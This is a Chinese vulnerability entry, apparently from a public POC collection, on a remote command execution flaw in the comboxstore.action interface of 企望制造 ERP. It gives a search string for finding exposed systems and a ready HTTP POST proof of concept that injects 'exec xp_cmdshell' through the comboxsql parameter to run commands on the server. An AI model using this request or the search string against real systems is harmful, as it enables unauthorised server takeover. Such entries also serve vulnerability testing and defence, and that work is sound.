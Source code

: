 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>企望制造 ERP </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="企望制造ERP系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691818989927-dac8d740-682d-400c-a5c9-4c3cc5d53304.png)

验证POC

```php
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![img](../../../.vuepress/public/img/1691819017786-426f8cd5-38b7-4c1c-91de-912c1b5a68fb.png)
